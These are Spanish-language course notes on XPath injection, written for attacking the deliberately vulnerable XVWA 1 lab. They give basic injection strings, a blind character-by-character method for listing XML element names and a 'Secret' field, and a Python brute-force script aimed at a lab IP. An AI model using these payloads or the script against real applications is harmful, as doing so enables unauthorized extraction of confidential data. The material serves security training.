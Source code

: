 # Inyecciones XPath

Tags: #XPath #OWASP #Explotacion 

**XPath** es un lenguaje de consultas utilizado en **XML** que permite buscar y recuperar información específica de **documentos XML**. Sin embargo, al igual que otros lenguajes de programación y consultas, XPath también puede tener **vulnerabilidades** que los atacantes pueden aprovechar para comprometer la seguridad de una aplicación web.

Las **vulnerabilidades XPath** son aquellas que se aprovechan de las debilidades en la implementación de consultas XPath en una aplicación web. A continuación, se describen algunos tipos de vulnerabilidades comunes en XPath:

-   **Inyección XPath**: los atacantes pueden utilizar inyección de código malicioso en las consultas XPath para alterar el comportamiento esperado de la aplicación. Por ejemplo, pueden agregar una consulta maliciosa que recupere toda la información del usuario, incluso información confidencial como contraseñas.
-   **Fuerza bruta de XPath**: los atacantes pueden utilizar técnicas de fuerza bruta para adivinar las rutas de XPath y recuperar información confidencial. Esta técnica se basa en intentar diferentes rutas XPath hasta encontrar una que devuelva información confidencial.
-   **Recuperación de información del servidor**: los atacantes pueden utilizar consultas XPath maliciosas para obtener información sobre el servidor, como el tipo de base de datos, la versión de la aplicación, etc. Esta información puede ayudar a los atacantes a planear ataques más sofisticados.
-   **Manipulación de respuestas XPath**: los atacantes pueden manipular las respuestas XPath de la aplicación web para obtener información adicional o alterar el comportamiento de la aplicación. Por ejemplo, pueden modificar una respuesta XPath para crear una cuenta de usuario sin permiso.

Para protegerse contra las vulnerabilidades de XPath, es importante validar todas las entradas de usuario y evitar la construcción dinámica de consultas XPath. Además, se recomienda restringir los permisos de acceso a los recursos de la aplicación web y mantener actualizado el software y los sistemas operativos. Por último, se recomienda utilizar herramientas de análisis de seguridad y realizar pruebas de penetración regulares para identificar y corregir cualquier vulnerabilidad en la aplicación web.

A continuación, se proporciona el enlace directo de descarga a la máquina XVWA 1 de Vulnhub, la cual usamos en esta clase para explotar las vulnerabilidades existentes en XPath:

-   **XVWA 1**: [https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/](https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/)


## Inyecciones XPath

Este tipo de inyecciones las debemos de hacer en documentos XML.

* [XPath-Injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection)

Algunas inyecciones básicas son
```bash
❯ ' or '1'='1
❯ " or "1"="1
❯ ' or ''='
❯ " or ""="
```

Primero debemos de averiguar cuantas etiquetas primarias existen en el documento.
```bash
❯ 1' and count(/*)='1             # Contaremos el numero de etiquetas raiz o primarias, si no nos sale el producto colocando el numero 2 al final, quiere decir que solo existe una etiqueta primaria.
```

```bash
❯ 1' and string-length(name(/*[1]))>'2            # Para saber la longitud de la cadena de esa etiqueta primaria, aqui le decimos que si es mayor a dos, si nos muestra el producto es correcto, de lo contrario no lo es
❯ 1' and string-length(name(/*[1]))='7            # Para saber la longitud de la cadena de esa etiqueta primaria, aqui le decimos que si es igual a siete, si nos muestra el producto es correcto, de lo contrario no lo es

❯ 1' and substring(name(/*[1]),1,1)='C            # Para saber el nombre de la etiqueta 'primaria', iremos caracter por caracter. En este caso le estamos diciendo que el primer caracter es igual a 'C'. Si nos sale el producto quiere decir que si es correcta de lo contrario no.

❯ 1' and name(/*[1])='label_name                  # Para saber el nombre de la etiqueta 'primaria', colocamos el [1] para hacer alucion a la primer etiqueta, si hay mas etiquetas cambiamos el numero que esta entre [], 
	# label_name = Nombre de la etiqueta que ya conocemos
```

Ahora debemos de descubrir el nombre de las etiquetas secundarias.
```bash
❯ 1' and count(/*[1]/*)>'7                 # Contaremos el numero de etiquetas secundarias, si nos sale el producto quiere decir que es valida. 
❯ 1' and count(/*[1]/*)='10                # Contaremos el numero de etiquetas secundarias, diciendo si son iguales a 10 etiquetas
```

```bash
❯ 1' and substring(name(/*[1]/*[1]),1,1)='C            # Para saber el nombre de la etiqueta 'secundaria', iremos caracter por caracter. En este caso le estamos diciendo que el primer caracter es igual a 'C'. Si nos sale el producto quiere decir que si es correcta de lo contrario no. El segundo [1] es el que se varia para cada una de las etiquetas
```

```bash
❯ 1' and string-length(name(/*[1]/*[1]))='6            # Para saber la longitud de la cadena de esa etiqueta secundaria, aqui le decimos que si es igual a seis, si nos muestra el producto es correcto, de lo contrario no.
```

Después debemos de conocer el nombre de las sub-etiquetas
```bash
❯ 1' and count(/*[1]/*[1]/*)>'2                   # Contaremos el numero de etiquetas secundarias, si nos sale el producto quiere decir que es valida. El valor que estaremos variando es el segundo [1] a 2,3,4 depende de las etiquetas secundarias anteriormente encontradas
```

```bash
❯ 1' and substring(name(/*[1]/*[1]/*[1]),1,1)='I            # Para saber el nombre de la etiqueta 'subetiqueta', iremos caracter por caracter. En este caso le estamos diciendo que el primer caracter es igual a 'I'. Si nos sale el producto quiere decir que si es correcta de lo contrario no. El tercer [1] es el que se varia para cada una de las sub-etiquetas y ademas debemos de variar el primer '1' que seria mencion al segundo caracter
```

Para averiguar el contenido de una sub-etiqueta
```bash
❯ 1' and substring(Secret,1,1)='E            # Para saber el contenido de la sub-etiqueta, iremos caracter por caracter. En este caso le estamos diciendo que el primer caracter es igual a 'E'. Si nos sale el producto quiere decir que si es correcta de lo contrario no.
```

```bash
❯ 1' and string-length(Secret)>'20            # Para saber la longitud de la cadena del contenido de la sub-etiqueta, aqui le decimos que si es mayor a veinte, si nos muestra el producto es correcto, de lo contrario no
```

Automatizaremos la parte de encontrar el nombre de la etiqueta primaria. Por lo que crearemos un script llamado 'xpath_injection.py'
```python
#!/usr/bin/python3

from pwn import *
import requests
import signal
import sys
import time
import string
import pdb 

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://192.168.68.1/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters                    # Englobas los caracteres, mayusculas y minusculas, le agregaremos + ' ' en la parte de ver el contenido de las sub

def XPathInjection():
	data = ""
	p1 = log.progress("Fuerza Bruta")
     p1.status("Iniciando fuerza bruta")
     time.sleep(2)
     p2 = log.progress("Data")

	for position in range(1, 8):       # Para la etiqueta secundaria seria 6 o sea de 1-7, para las bus-etiquetas va a ir de 1-6 o sea 5 recorridos, y el contenido 1-51
		# for sec_position in range(1, 21):    Esto se coloca solo para las sub-etiquetas
			for character in characters:
				post_data = {
					'search': "1' and substring(name(/*[1]),%d,1)='%s" % (position, character),
					# 'search': "1' and substring(name(/*[1]/*[1]),%d,1)='%s" % (position, character), # Para buscar el nombre de la etiqueta secundaria
					# 'search': "1' and substring(name(/*[1]/*[1]/*[%d]),%d,1)='%s" % (position, sec_position, character), # Para buscar el nombre de las sub-etiquetas
					# 'search': "1' and substring(Secret,%d,1)='%s" % (position, character), # Para encontrar el contenido de la etiqueta
					'submit': ''
				}
				r = requests.post(main_url, data=post_data)
				# print(len(r.text)) Para saber el tamano 
				
				if len(r.text) != 8681:     # 8686 para la parte de etiqueta secundaria y el '8691 and len(r.text) != 8692:' para las sub-etiquetas, para el contenido de las sub-etiquetas el numero es '8676 and len(r.text) != 8677:'
					data += character
					p2.status(data)
					break
		# if position != 5:  # Esto para sub-etiquetas
			# data += ":"   # Separador de columnas en las sub-etiquetas
     p1.success("Ataque de fuerza bruta concluido")
     p2.success(data)

if __name__ == '__main__':
    XPathInjection()
```

 Nos creamos un script llamado 'data.xml' en donde colocaremos lo descubierto anteriormente 
```javascript
<Coffees>
	<Coffee>
		<ID></ID>
		<name></name>
		<Desc></Desc>
		<Price></Price>
		<Secret></Secret>
		<></>
	</Coffee>
</Coffees>
```